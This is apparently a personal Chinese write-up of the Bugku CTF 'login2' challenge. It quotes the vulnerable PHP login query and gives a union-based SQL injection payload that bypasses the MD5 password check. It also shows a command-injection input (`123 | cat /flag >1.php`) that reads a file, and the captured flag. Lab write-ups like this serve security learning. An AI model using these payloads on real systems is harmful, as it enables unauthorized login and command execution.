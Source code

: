 ![](图片/Pasted%20image%2020241126213546.png)


# 30//login2
[Bugku CTF login2(SKCTF) - 简书](https://www.jianshu.com/p/4f8d8d8b7b31)
```sql
$sql="SELECT username,password FROM admin WHERE username='".$username."'";
if (!empty($row) && $row['password']===md5($password)){
}
```
$row通常是从数据库查询结果中提取的一行数据（如`mysqli_fetch_assoc()`或`PDO::fetch()`的返回值）。

从http的响应头中获得JHNxbD0iU0VMRUNUIHVzZXJuYW1lLHBhc3N3b3JkIEZST00gYWRtaW4gV0hFUkUgdXNlcm5hbWU9JyIuJHVzZXJuYW1lLiInIjsKaWYgKCFlbXB0eSgkcm93KSAmJiAkcm93WydwYXNzd29yZCddPT09bWQ1KCRwYXNzd29yZCkpewp9
base64解码后获得上述代码
分析代码
首先分析注入点username 同时还要满足 selcet获得的值$row不为空->得注入语句select至少输出两个值，第二个值password满足与post输入得MD5（password）相同
构造sql语句
`username=admin' union select 1,md5(123)#&password=123`
成功进入下一步
进程监控系统
![](图片/Pasted%20image%2020241126223901.png)
123 | cat /flag >1.php
这题有空再看看
flag{89581891473eedc216e1ca9ab75339dc}
